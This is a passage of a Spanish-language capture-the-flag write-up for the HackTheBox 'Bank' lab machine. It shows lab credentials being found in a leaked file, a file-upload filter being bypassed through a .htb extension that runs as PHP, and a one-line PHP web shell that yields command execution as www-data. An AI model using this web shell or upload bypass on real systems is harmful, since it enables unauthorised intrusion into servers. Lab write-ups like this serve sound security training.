 Vemos un archivo con un size de 287, diferente al resto. Veamoslo:

```sh
❯ curl -s -X GET http://bank.htb/balance-transfer/68576f20e9732f1b2edc4df5b8533230.acc
--ERR ENCRYPT FAILED
+=================+
| HTB Bank Report |
+=================+

===UserAccount===
Full Name: Christos Christopoulos
Email: chris@bank.htb
Password: !##HTBB4nkP4ssw0rd!##
CreditCards: 5
Transactions: 39
Balance: 8842803 .
===UserAccount===
```

Tenemos un correo y una password, quizás con esto podramos acceder al panel de `http://bank.htb/login.php`. Escribimos las credenciales en el login y estamos dentro de lo que parece la cuenta del banco del usuario chris.

![Banco]({{ 'assets/img/writeups/Bank/banco.png' | relative_url }}){: .center-image }

### File Upload

En la pestaña **support** parece que podemos subir archivos. Probemos con un archivo .txt cualquiera pero nos salta el siguiente error "You cant upload this this file. You can upload only images.". Así que solo podremos subir imagenes. Podemos interceptar la petición por BurpSuite y probar cosillas -cambiar el content-type, extensión, inyección de codigo en imagen, etc- pero si recordamos en la página `http://bank.htb/support` nos encontramos la siguiente línea:

```plaintext
[DEBUG] I added the file extension .htb to execute as php for debugging purposes only [DEBUG]
```

Crearé una webshell con la extensión .htb, lo llamare **pwn.htb**:

```php
<?php
    system($_REQUEST['cmd']);
?>
```

Vamos a subirlo. Ha ido bien. Había una carpeta /uploads encontrada haciendo fuzzing, llamemos al archivo subido desde la URL y de paso añadimos un comando; `http://bank.htb/uploads/pwn.htb?cmd=id`. Conseguimos RCE:

```plaintext
# El navegador nos devuelve:
uid=33(www-data) gid=33(www-data) groups=33(www-data) 
```

## Shell con www-data
